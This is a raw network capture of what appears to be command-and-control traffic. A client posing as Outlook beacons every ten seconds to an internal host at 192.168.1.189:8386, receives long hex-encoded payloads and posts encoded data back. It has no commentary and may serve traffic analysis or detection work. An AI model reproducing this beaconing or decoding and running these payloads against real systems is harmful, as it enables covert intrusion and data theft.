23e0003116b5f585e1a032d5e380331236923263d0a475d656f6b42241743582c0a523c473b332d23263d0a143e024601240e3e58140c183b5d6e5d584e033d380a5a33001f1122181d114549395e210930792807253706583242350b3107581e581a024b31153b24290163715e1d5d656f6b426b1157580f025d31132d21224572714d1e754c320a2e0c7238716062385d0e3271210c233401553a09465f6b405213583d03543a6d5d584e6c465866573802120725160b114549085e3a13313f33166f774f16115646406b44585e1a032d5838027a01261127714914754c4b42180b025442494911724732232e002135034d24051c076b44584211130e573b153930334569714d147a4c2a033816355e1c000d5831036e716545697100563d2a0f0e2e4c3c500c0c27502713193e230c29380a50774a461429210a7d1e6362385d6e5d5822093c34653d5e656f6b426b31575825285027027c37344b08341b76361f032c2a0f1d19170b01773d0b317f09042234461d7751462e08030b54500f025d3109353c224c6f05075139666f6b426b71387160085e3a13313f33166f6c4f573802120725160b115e4949776e4776716145203305723e00034c1b030c59584f4b13744a74022e1f2a6b4f16774a4604390b1d5f1c0512423d1d317161453c3815513103140f2a165817584b4b1c742b35223328203506523e0902586b4058175806095b120e383469212e250a78361f122f24061157110c0f117247223304170337653d5e656f6b426b1d5f1c4902575e6e5d584e6c4634015077050068426b7138710c0742316d5d584e6c4658265277202503380750570b472c5420222c25220b3c38005a190d0b07630d1a5b3e0007547a29353c224c667152141b2f07112e4a1e58140c1f4824027d71130d2a3f653d5e656f6b426b1157580f025d3109353c224572714d1e754c320a2e0c7238716062385d6e5d32280b3b340140244c5b42280d16451d071f4274417473015f6f734f127703040
	1460
80d0b145456390a453c477271654562713c5d2d095c4269425e111e1b02543a033828340c35344f12771f0f182e04174315081f11724776716a4503301c401a03020b2d0b1d554249491172473b332d23263d0a1a130d120707030b4535060f58320e313567436f270d7725200068426b7138716062543814315b4e6c4658663d5e652f046b2e3b500b0c43572749133433272e220a7a3601034a2400127711050e1f1a0639346e4c6f6c4f78140d15076304115d1d070a5c314e74052f00215b663d5e656f6b426b715217071f543a1327717a452c3e0140320212116b4458133e534b137441743e250f09380351793c071623425e115a494611070e2e347d456d714914311e0f07250614480b001154744174222e1f2a3700463a0d12426d425a11554927502713193e230c29380a506d4c44426d421753122f025d31491030330003301c401a03020b2d0b1d55584f4b473624261d216f4658663d5e656f6b2e0c1c11110f61385d6e5d584e6c2a3f0b143e0a6c6b426b7138712c0555742e325b4e6c465866713908462b2d6871387160627832471123354b01240256321e465e754248112c010e5f5e6e5d584e6c463809143903020b39071b45171b025427470039220b4558663d5e656f2727111d3b716062385d6e5d32280b3b340140244c5b42280d16451d071f427441747302371d1e3d147a4c34072a06587711050e427403313f2e002b71005a771c0716234255115a494d113208383522173f301b5c774c40423d003b43340f61385d6e5d584e6c3d341b4125026c6b426b713871602e432649173d22043d5b663d5e656f6b2e0c1c11110f61385d6e5d58020b2b7126525d656f6b422c1d490c6362385d023a35670c295b663d3202024222047238712f0443742235322f451c240d52380002073942115f5806095b12083835221761021a5611030a062e100b3b71606258324730343711277151142509051739111d5d1d1f0e5d27470039220b4558663d5e091e0b3f423e5
	1460
e0a6362385d023822226f4658663d3e0a460c240611431d0a1f5e260e312267312734013e5e656f6b0e0e0b54726062385d6e373e29112a3f1b4777514601240c0c54161d1811724776157d456d71491404190404240e1c540a473b50200f747767476f7c4f78361f122f24061157110c0f0b7445747767363a33095b3b080310652619451d250a42202a3b352e0326340b14714c100008103457726062385d223a35670c295b663d5e65050d25161d5f0c1a4b0c74043b3f330021251c14714c020b393d14580b1d0e437c342133210a23350a46793c0716234e58551d191f597f56787135002c241d47320003142e0e0b1d580f025d31132d2122496f3706583202070f2e4e585f170d02433104203e350c2a22431424051c072d0d0a5c191d47113a0832382b003c78653d5e65230c2f42115772494b1174477471672b2a291b3e774c46426b425811110f4b553117203967586f614f603f0908686b42581158494b1174477471230c3d0e035d241803106b5f5813280819543a13741728092b341d0e774e46446b04175d1c0c194135133c71614539332c461b0a46446b01175f0c0c0545276d747167456f714f14320015074142581158494b11744774716701262330583e1f1207394245111b060545310920224d456f714f14774c4627250658581e634b117447313d340045714f14774c46426b06114327050242200226717a456d1700583309144269425e111e06075531152430330d6f774f16770809073842165e0c490e493d1420734d456f714f713908462b2d683d5f1c492d443a042038280b45171a5a34180f0d254214580b1d34553d157c784d6c003f4f51251e09106b101d420d040e113a022c254d456f714f583e1f123d2f0b0a1145490f582638383834112a2347161456493738070a425a454b017847647d6747657343147546444e6b24195d0b0c4711760a36736b450930034732456c27250658770d0708453d083a5b080d22715214754e6c2d230f580c580a194
	243
824133c342b152a2347583e1f123d2f0b0a1951454b502d4b740535102a7865462200465f6b101d400d0c1845240633346f4727251b446d434953725056004e5145007a566c687d5d7c69591b341f154d2f1a4f444f383272070b360525346d7d4f573f1e4e517f4b58175826035c744174322f1767625b1d7e
312
POST /css/dx7u7QYCSlbTbQ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 776
Host: 192.168.1.189:8386


776
"3F55250908166B24175D1C0C190B74246E7E12162A231C395D2A5C42085824640B0C1942080331222C112021415D3905464F6B31114B1D534B013905747C67292E221B7938080F0422071C0B58595C1E65557B63775476715E046D5D54587F50753B3C534B726E3B012222173C0D2E583B4C33112E100B11554927502713193E230C29380A506D4C565564534A1E4A595A087456646B7455756256395D285C42085824640B0C194208251F1814266F7C4F78361F122F24061157110C0F0B7454657E775260635F06624C575371574B0B4C51663B105D74127D391A220A46243022072D030D5D0C494611180627250A0A2B38095D32085C42795157014F46590166527460715F7D65550566616C2671423B0B243C18542614081522032E24034077391507394255113408184519083038210C2A355514675B4953794D4A0149504B00645D67617D56765C65706D4C255817370B540A1A37612105383824456271235524182B0D2F0B1E581D0D511164507B61734A7D615D00775D5F587B574205406461"
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:17:12 GMT
Content-Length: 0


250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:17:22 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:17:32 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:17:42 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	1460
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:17:52 GMT
Cache-Control: no-store
Etag: "4715c4095d2047001249caff83c72e546962267b"
Content-Length: 5875

10010657222020516220d16111c00196e380e2725221767370058330914122a16101d580d0e41200f787135002c241d47320003142e0e0b1d580f025d31132d2122496f3706583202070f2e4e585f170d02433104203e350c2a22431424051c072d0d0a5c191d47113a0832382b003c78653d1802460739101743581b0e42210a3171290037256514774c46312e1658570b495611230e3a35281261341740321e0803274c37440c05045e3f2624212b0c2c301b5d38024821390719451d26095b3104207965362c230644230508056524115d1d3a12422002391e250f2a321b167e666f01240c0c54161d1811694776734d456f714f3e5e050042380b02541e06195c3513746c674724334d140304030c416b714211130e433b123a3567586f605f0663666f0727111d581e4918582e02323e35082e254f09774e0b0069422c591d0761385d143d2b221720240150775146537b5640044f5f6138310b27342e036f22064e320a091026030c1145494956364574052f00215b663d24051c07390d0d5f1c4956116557636270517e695d005d65030e38071157581a024b31013b232a043b715214751804406b36105416636238270e2e34350a3a3f0b146a4c5752725b4d00495f59066350625b4e0021354f5d31666c426b4258581e490d427a213b3d23003d14175d2418154a2d0d14551d1b1b50200f7d71130d2a3f653d5e3f03166b0d1a5b3e0607553115746c67033c7f2851232a090e2f070a191e06075531152430330d665b663d3e0a460c2416585f170f025d311474052f00215b663d5e0500422f0708451049570c7415313232173c34035121090a116b361054166362385d6e073433452c3e037
	1460
23e0003116b5f585e1a032d5e380331236923263d0a475d656f6b42241743582c0a523c473b332d23263d0a143e024601240e3e58140c183b5d6e5d584e033d380a5a33001f1122181d114549395e210930792807253706583242350b3107581e581a024b31153b24290163715e1d5d656f6b426b1157580f025d31132d21224572714d1e754c320a2e0c7238716062385d0e3271210c233401553a09465f6b405213583d03543a6d5d584e6c465866573802120725160b114549085e3a13313f33166f774f16115646406b44585e1a032d5838027a01261127714914754c4b42180b025442494911724732232e002135034d24051c076b44584211130e573b153930334569714d147a4c2a033816355e1c000d5831036e716545697100563d2a0f0e2e4c3c500c0c27502713193e230c29380a50774a461429210a7d1e6362385d6e5d5822093c34653d5e656f6b426b31575825285027027c37344b08341b76361f032c2a0f1d19170b01773d0b317f09042234461d7751462e08030b54500f025d3109353c224c6f05075139666f6b426b71387160085e3a13313f33166f6c4f573802120725160b115e4949776e4776716145203305723e00034c1b030c59584f4b13744a74022e1f2a6b4f16774a4604390b1d5f1c0512423d1d317161453c3815513103140f2a165817584b4b1c742b35223328203506523e0902586b4058175806095b120e383469212e250a78361f122f24061157110c0f117247223304170337653d5e656f6b426b1d5f1c4902575e6e5d584e6c4634015077050068426b7138710c0742316d5d584e6c4658265277202503380750570b472c5420222c25220b3c38005a190d0b07630d1a5b3e0007547a29353c224c667152141b2f07112e4a1e58140c1f4824027d71130d2a3f653d5e656f6b426b1157580f025d3109353c224572714d1e754c320a2e0c7238716062385d6e5d32280b3b340140244c5b42280d16451d071f4274417473015f6f734f127703040
	1460
80d0b145456390a453c477271654562713c5d2d095c4269425e111e1b02543a033828340c35344f12771f0f182e04174315081f11724776716a4503301c401a03020b2d0b1d554249491172473b332d23263d0a1a130d120707030b4535060f58320e313567436f270d7725200068426b7138716062543814315b4e6c4658663d5e652f046b2e3b500b0c43572749133433272e220a7a3601034a2400127711050e1f1a0639346e4c6f6c4f78140d15076304115d1d070a5c314e74052f00215b663d5e656f6b426b715217071f543a1327717a452c3e0140320212116b4458133e534b137441743e250f09380351793c071623425e115a494611070e2e347d456d714914311e0f07250614480b001154744174222e1f2a3700463a0d12426d425a11554927502713193e230c29380a506d4c44426d421753122f025d31491030330003301c401a03020b2d0b1d55584f4b473624261d216f4658663d5e656f6b2e0c1c11110f61385d6e5d584e6c2a3f0b143e0a6c6b426b7138712c0555742e325b4e6c465866713908462b2d6871387160627832471123354b01240256321e465e754248112c010e5f5e6e5d584e6c463809143903020b39071b45171b025427470039220b4558663d5e656f2727111d3b716062385d6e5d32280b3b340140244c5b42280d16451d071f427441747302371d1e3d147a4c34072a06587711050e427403313f2e002b71005a771c0716234255115a494d113208383522173f301b5c774c40423d003b43340f61385d6e5d584e6c3d341b4125026c6b426b713871602e432649173d22043d5b663d5e656f6b2e0c1c11110f61385d6e5d58020b2b7126525d656f6b422c1d490c6362385d023a35670c295b663d3202024222047238712f0443742235322f451c240d52380002073942115f5806095b12083835221761021a5611030a062e100b3b71606258324730343711277151142509051739111d5d1d1f0e5d27470039220b4558663d5e091e0b3f423e5
	1460
e0a6362385d023822226f4658663d3e0a460c240611431d0a1f5e260e312267312734013e5e656f6b0e0e0b54726062385d6e373e29112a3f1b4777514601240c0c54161d1811724776157d456d71491404190404240e1c540a473b50200f747767476f7c4f78361f122f24061157110c0f0b7445747767363a33095b3b080310652619451d250a42202a3b352e0326340b14714c100008103457726062385d223a35670c295b663d5e65050d25161d5f0c1a4b0c74043b3f330021251c14714c020b393d14580b1d0e437c342133210a23350a46793c0716234e58551d191f597f56787135002c241d47320003142e0e0b1d580f025d31132d2122496f3706583202070f2e4e585f170d02433104203e350c2a22431424051c072d0d0a5c191d47113a0832382b003c78653d5e65230c2f42115772494b1174477471672b2a291b3e774c46426b425811110f4b553117203967586f614f603f0908686b42581158494b1174477471230c3d0e035d241803106b5f5813280819543a13741728092b341d0e774e46446b04175d1c0c194135133c71614539332c461b0a46446b01175f0c0c0545276d747167456f714f14320015074142581158494b11744774716701262330583e1f1207394245111b060545310920224d456f714f14774c4627250658581e634b117447313d340045714f14774c46426b06114327050242200226717a456d1700583309144269425e111e06075531152430330d6f774f16770809073842165e0c490e493d1420734d456f714f713908462b2d683d5f1c492d443a042038280b45171a5a34180f0d254214580b1d34553d157c784d6c003f4f51251e09106b101d420d040e113a022c254d456f714f583e1f123d2f0b0a1145490f582638383834112a2347161456493738070a42572b20780724767d675563715f18774e4c4067425a1b5a454b77350b27346b456d3c0d167b4c200327111d18722c05557421213f2411263e013e18040b4276425a137226035
	255
c745a7432351c3f2507513b1c0310630e11420c360f58264f7d7d6704367d4f602519034b41100d5d58544b433116213434113f3008517f4e0e163f12421e575852037a56626969546160570d6d54555a7d4d1b420b460f49631263001e261c3d0d60353d444e6b011043505a5f187441741e2f086f774f573f1e4e517f4b51
313
POST /css/dx7u7QYCSlbTbQ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 6014
Host: 192.168.1.189:8386


6014
"3F55250908166B24175D1C0C190B74246E7E12162A231C1B15272F31086F72774249280B0832273435161313247D042F3A2C1F372B742A472F7000477971140C353455146E425E0F294255113408184519083038210C2A355514675D49537B4D4A014A5C4B016C5D64667D56765C65726D4C255817370B540A1A37731F2E07121B0B3B241C51254202033F4C347E3F584B1C74343D2B225F6F6341013A0E464F6B2E19420C2404553D013D34235F6F61581B675849507B504C1149505101675D60614A6F096B4F776D3033112E100B6D3A222262173B3A2532162A2341503618482E04254A11554938582E026E71754B793C0D147A4C2A033816355E1C000D5831036E71775260615B1B655C54566B53410B485A5105646A5E177D450C6B336124091411172033782B2A377F00320714154B0B103B4F625F04517207400955585352604A6560220462305705664156527B064B50195D5D086605297F1328613303527741463122181D0B585945003905747C67292E221B7938080F0422071C0B58595C1E64537B6377577B715E0D6D5C53587F57753B3E534B726E3B012222173C0D2D7F1E3F253E05362D623D3B457515332F6474077C680A0C6F41575A28565500490C0A1C355F65606A557F610B07360D525472501A4C563D26723B0920302E0B2A235F04675C56527B52480148595B0164576461775461230A53231E070C384F154258444B623D1D316B6755616402567741462E2A110C7C170D02573D02306B6755787E5F00785E56507F4249084259580B6057595B015F6F125568021F0310383E3A7A313A286D1A330102023761152E602C595500785B1D0940445A093753796076002E7C0E0C665D4B527B521C0219085F076D55362C69310212005A230D0F0C2E10480148595B016457646177557F615F04675C565065101D560C1B0A5F274A392267486F02064E325646526557155358444B7D3514201C280126370651335646527C4D4805575B5B03604765687D557C6B5B045A6620586B21426D2D1A0E43273B161A0E360C0D2160023F233065263965030C520264043569734879695F0D7A5D57047B4F1A041D0A4609625F6635265D2B62565535114836064C1A5D1E494611070E2E347D457F7F5E59354C4B4207030B4535060F58320E31357D457D62400460435452795758004F535B016E53605C4D2375712C0E0B39150739112473332038720829000414201D7F2B750317035B78521B50405D46076C576D7C7654296142566209054F735440031C085355675E35333A4B1B1C2C5B3918070B25070A0148595B016457646177557F615F04675C56527A4C0A541F1D19503A14793C344562713C5D2D095C427B4C4D5C1A494611180627250A0A2B38095D32085C42795157014F46590166527463755F7E67550567616C2471423B0B243C1854261408130C2C1C12337A03393527194C3C702C120E08675737307F51626757046E4157532D5255534D0C081C6C516C63230477355C0D360E1B4C1F2F3B5E161D0A583A02266177557F615F04675C56527B52480148595B016649263420113D3001477A01154266422B58020C51116449613C25456271235524182B0D2F0B1E581D0D511166547B61704A7D615D01775E54587A544200486461776E47176B1B303C341D470B2E2D2B1821245F0C1C185426493D3F2E4562713C5D2D095C427B0F1A11554927502713193E230C29380A506D4C565564524C1E4A59590574566D6B775675655F395D285C42085824640B0C194208251F181426137F1947340302076B4F587D191A1F7C3B033D372E002B6B4F046F435656645048034C495A016E57646B7451425B2B0E772F5C3E1E111D430B35297A1D34170D74216F1E0D5E320F12116B4F587D191A1F7C3B033D372E002B6B4F0460435656645048034C495A086E57616B735D425B2B0E772F5C3E1E111D430B35297A1D34170D06153F150E40364C4B4207030B4535060F58320E31357D457F664004634354527956580041535B026E53645C4D2175712C0E0B3915073911247333203872082624212B0C2C301B5D380246262A161911554927502713193E230C29380A506D4C565564524C1E4A59590574566D6B775675655F395D285C42085824640B0C194208251F1814261313065A130500046B351743131A1B503702747C67292E221B7938080F0422071C0B585B5C1E64537B6377577B715F036D595E587B52753B3C534B726E3B012222173C0D2D7F1E3F253E080D1645190A1F42744A741D26163B1C00503E0A0F072F5858014F465B057B55646373457E6855046256525A46683C0B582A516D0114312334390D1A26671430250D240911540B494611180627250A0A2B38095D32085C427B5557014C465901665374607E5F7F62550067616C2671423B0B243C1854261408130C2C1C123370321F0D162412581C58250A42202A3B352E0326340B0E775E534D7B555703485B5E1165526E65765F7D67623E13564621713E2D421D1B186D162C1D0204390B3E0C413A090816384255113408184519083038210C2A355514665C49527F4D4A014A5D4B006C5D65667D557F5C65706D4C255817370B540A1A37731F2E07121B2120260158380D02116B4F587D191A1F7C3B033D372E002B6B4F0466435752645048034D495B036E56646B7656425B2B0E772F5C3E1E111D430B35297A1D34170D0104393E1D5D23091542664234500B1D265E300E3238220175715F03785C524D79524A055858520B64526E657F684515551414563A3738070A42242B20780724081D2E0B24224F19772007113F2F1755110F0254305D7461704A7F654006675E52427A5B42014D535F08596D106B6726750D3A47321E153E092931623B35275E3706387114003B25065A301F464F6B2E19420C2404553D013D34235F6F61581B675849507B504C1149505101675D60614A6F0B6B4F776D3033112E100B6D3A222262173B1924340C2C7142141B0D1516060D1C581E000E556E47646668557B7E5D046558465372584804425D523C5E236E71045F13041C51251F3A20002B2B7224241211100837242A0021251C147A4C2A033816355E1C000D5831036E71775260615B1B655C54566B53410B485A5105646A5E157D450C6B336124091411172033782B2A377F31131C3E28016F7C4F78361F122F24061157110C0F0B7457637E775160635F06634C575B71524B0B4C59663B105D74127D391A220A462430242902313B6D37070E75260E223467486F1D0E4723210906220411541C534B036748646668577F635A14665A5C507F58490075632F0B74246E0D12162A231C6815272F31083E37411D073D611A4779710B043C25225B3305000B2E064211485144016048666175516F635F0E64595C567C6F72754249280B0832273435161313247D042F3A3222010C440A0C1811794718303411023E0B5D310503067142480657595F1E665766656754766B5F036D5C506F412642113B533764270226221B2704183C770B3C140B2516305E170D4B1C742B35223328203506523E0902586B524F1E485D440364556071765C75615C0E635C6B680F58587242353E423115270D052E06022C68050905072516581C58250A42202A3B352E0326340B0E775C514D7B565703485B5F11655E6E61745F7B61623E13564621713E2D421D1B186D162C1D0204391C301951334C210326070B11554927502713193E230C29380A506D4C565564524C1E4A59590574566D6B7750756556395D285C42085824640B0C194208251F18142613020A55250F0E07384255113408184519083038210C2A355514675B49527F4D4A014A5D4B006D5D64667D557C5C65706D4C255817370B540A1A37731F2E07121B362A3F0B60384C4B4207030B4535060F58320E31357D457F664004634354527956580041535B026E53645C4D2175712C0E0B39150739112473332038720834203035116F1C0A5A224C4B4207030B4535060F58320E31357D457F664004634354527956580041535B026E53645C4D2175712C0E0B39150739112473332038720833313C37092E250A477741462E2A110C7C170D02573D02306B6755787E5F00785E56507F4249084259580B6057595B035F6F125568021F0310383E3A7A313A286D020E303428166F7C4F78361F122F24061157110C0F0B7457637E775160635F06634C575B7153480B4A5A663B"
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:17:52 GMT
Content-Length: 0


250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:18:02 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:18:12 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	1460
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:18:22 GMT
Cache-Control: no-store
Etag: "cb0c5ecc90f4fd1ce9fed56621667ca8a69bde31"
Content-Length: 5891

10010657222020516220d16111c00196e380e2725221767370058330914122a16101d580d0e41200f787135002c241d47320003142e0e0b1d580f025d31132d2122496f3706583202070f2e4e585f170d02433104203e350c2a22431424051c072d0d0a5c191d47113a0832382b003c78653d1802460739101743581b0e42210a3171290037256514774c46312e1658570b495611230e3a35281261341740321e0803274c37440c05045e3f2624212b0c2c301b5d38024821390719451d26095b3104207965362c230644230508056524115d1d3a12422002391e250f2a321b167e666f01240c0c54161d1811694776734d456f714f3e5e050042380b02541e06195c3513746c674724334d140304030c416b714211130e433b123a3567586f605f0663666f0727111d581e4918582e02323e35082e254f09774e0b0069422c591d0761385d143d2b221720240150775146537b5640044f5f6138310b27342e036f22064e320a091026030c1145494956364574052f00215b663d24051c07390d0d5f1c4956116557636270517e695d005d65030e38071157581a024b31013b232a043b715214751804406b36105416636238270e2e34350a3a3f0b146a4c5752725b4d00495f59066350625b4e0021354f5d31666c426b4258581e490d427a213b3d23003d14175d2418154a2d0d14551d1b1b50200f7d71130d2a3f653d5e3f03166b0d1a5b3e0607553115746c67033c7f2851232a090e2f070a191e06075531152430330d665b663d3e0a460c2416585f170f025d311474052f00215b663d5e0500422f0708451049570c7415313232173c34035121090a116b361054166362385d6e073433452c3e037
	1460
23e0003116b5f585e1a032d5e380331236923263d0a475d656f6b42241743582c0a523c473b332d23263d0a143e024601240e3e58140c183b5d6e5d584e033d380a5a33001f1122181d114549395e210930792807253706583242350b3107581e581a024b31153b24290163715e1d5d656f6b426b1157580f025d31132d21224572714d1e754c320a2e0c7238716062385d0e3271210c233401553a09465f6b405213583d03543a6d5d584e6c465866573802120725160b114549085e3a13313f33166f774f16115646406b44585e1a032d5838027a01261127714914754c4b42180b025442494911724732232e002135034d24051c076b44584211130e573b153930334569714d147a4c2a033816355e1c000d5831036e716545697100563d2a0f0e2e4c3c500c0c27502713193e230c29380a50774a461429210a7d1e6362385d6e5d5822093c34653d5e656f6b426b31575825285027027c37344b08341b76361f032c2a0f1d19170b01773d0b317f09042234461d7751462e08030b54500f025d3109353c224c6f05075139666f6b426b71387160085e3a13313f33166f6c4f573802120725160b115e4949776e4776716145203305723e00034c1b030c59584f4b13744a74022e1f2a6b4f16774a4604390b1d5f1c0512423d1d317161453c3815513103140f2a165817584b4b1c742b35223328203506523e0902586b4058175806095b120e383469212e250a78361f122f24061157110c0f117247223304170337653d5e656f6b426b1d5f1c4902575e6e5d584e6c4634015077050068426b7138710c0742316d5d584e6c4658265277202503380750570b472c5420222c25220b3c38005a190d0b07630d1a5b3e0007547a29353c224c667152141b2f07112e4a1e58140c1f4824027d71130d2a3f653d5e656f6b426b1157580f025d3109353c224572714d1e754c320a2e0c7238716062385d6e5d32280b3b340140244c5b42280d16451d071f4274417473015f6f734f127703040
	1460
80d0b145456390a453c477271654562713c5d2d095c4269425e111e1b02543a033828340c35344f12771f0f182e04174315081f11724776716a4503301c401a03020b2d0b1d554249491172473b332d23263d0a1a130d120707030b4535060f58320e313567436f270d7725200068426b7138716062543814315b4e6c4658663d5e652f046b2e3b500b0c43572749133433272e220a7a3601034a2400127711050e1f1a0639346e4c6f6c4f78140d15076304115d1d070a5c314e74052f00215b663d5e656f6b426b715217071f543a1327717a452c3e0140320212116b4458133e534b137441743e250f09380351793c071623425e115a494611070e2e347d456d714914311e0f07250614480b001154744174222e1f2a3700463a0d12426d425a11554927502713193e230c29380a506d4c44426d421753122f025d31491030330003301c401a03020b2d0b1d55584f4b473624261d216f4658663d5e656f6b2e0c1c11110f61385d6e5d584e6c2a3f0b143e0a6c6b426b7138712c0555742e325b4e6c465866713908462b2d6871387160627832471123354b01240256321e465e754248112c010e5f5e6e5d584e6c463809143903020b39071b45171b025427470039220b4558663d5e656f2727111d3b716062385d6e5d32280b3b340140244c5b42280d16451d071f427441747302371d1e3d147a4c34072a06587711050e427403313f2e002b71005a771c0716234255115a494d113208383522173f301b5c774c40423d003b43340f61385d6e5d584e6c3d341b4125026c6b426b713871602e432649173d22043d5b663d5e656f6b2e0c1c11110f61385d6e5d58020b2b7126525d656f6b422c1d490c6362385d023a35670c295b663d3202024222047238712f0443742235322f451c240d52380002073942115f5806095b12083835221761021a5611030a062e100b3b71606258324730343711277151142509051739111d5d1d1f0e5d27470039220b4558663d5e091e0b3f423e5
	1460
e0a6362385d023822226f4658663d3e0a460c240611431d0a1f5e260e312267312734013e5e656f6b0e0e0b54726062385d6e373e29112a3f1b4777514601240c0c54161d1811724776157d456d71491404190404240e1c540a473b50200f747767476f7c4f78361f122f24061157110c0f0b7445747767363a33095b3b080310652619451d250a42202a3b352e0326340b14714c100008103457726062385d223a35670c295b663d5e65050d25161d5f0c1a4b0c74043b3f330021251c14714c020b393d14580b1d0e437c342133210a23350a46793c0716234e58551d191f597f56787135002c241d47320003142e0e0b1d580f025d31132d2122496f3706583202070f2e4e585f170d02433104203e350c2a22431424051c072d0d0a5c191d47113a0832382b003c78653d5e65230c2f42115772494b1174477471672b2a291b3e774c46426b425811110f4b553117203967586f614f603f0908686b42581158494b1174477471230c3d0e035d241803106b5f5813280819543a13741728092b341d0e774e46446b04175d1c0c194135133c71614539332c461b0a46446b01175f0c0c0545276d747167456f714f14320015074142581158494b11744774716701262330583e1f1207394245111b060545310920224d456f714f14774c4627250658581e634b117447313d340045714f14774c46426b06114327050242200226717a456d1700583309144269425e111e06075531152430330d6f774f16770809073842165e0c490e493d1420734d456f714f713908462b2d683d5f1c492d443a042038280b45171a5a34180f0d254214580b1d34553d157c784d6c003f4f51251e09106b101d420d040e113a022c254d456f714f583e1f123d2f0b0a1145490f582638383834112a2347161456493738070a42572b207807247b15221624250044754046526742481d584b41137847767b65496f170e5824094a42690f1a1354492d50381431784d2021354f7222020516220d163b3701061
	271
1694776734d2a273c4f09770f141b3b16105414190e437c0b3d22333a2b381d1c7e404603324e58650a1c0e185e15213d67586f230a45220915163b031f54504b034520176e7e68547663410561544853655340084251580962483722344a2b295841603d3f21180e1a651a38491d74043c236f567b784f1277230e0f6b445852101b4302604e7d
312
POST /css/dx7u7QYCSlbTbQ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 934
Host: 192.168.1.189:8386


934
